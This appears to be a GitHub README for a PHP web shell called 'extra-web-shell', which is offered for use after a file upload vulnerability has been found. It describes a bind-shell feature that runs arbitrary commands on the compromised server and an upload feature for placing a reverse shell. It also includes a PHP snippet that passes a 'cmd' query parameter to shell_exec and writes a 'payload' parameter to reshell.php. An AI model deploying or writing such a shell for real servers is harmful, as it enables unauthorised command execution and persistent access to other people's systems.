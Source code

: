 # extra-web-shell

## What is this?
#### this is a simple web shell, contains both, bind and option of upload a reverse shell
![extra-shell](https://raw.githubusercontent.com/hamza07-w/extra-web-shell/main/backg.png)
## How can this help me?
##### well, sometimes when you find a file upload vulnerability, you will find that you can't bypass the extension eaisy, for example you have to try many extension methods such as, php, php5, jpg.php ... this extra web shell, will help you to upload any kind of files start from php, txt ...etc

## Bind shell section
#### this part of the tool, you can execute any command on the server without any problem, and the output will be visible in the output border

## Create file or reverse shell section
#### here you can upload any file just copy the content of this file and the output will give you the link of it to acssess
#### you can edit the name and the extension in the source code from $path variable which equal "reshell.php" by default to what you like
```php
<?php
	if(isset($_GET['cmd']))
	{
	    $output = shell_exec($_GET['cmd']);
	}
	elseif (isset($_GET['payload'])) {
		file_put_contents("reshell.php", $_GET['payload']);
		$path = "reshell.php";
	}	
?>

```

## LICENCE
[MIT](https://github.com/hamza07-w/extra-web-shell/blob/main/LICENSE)
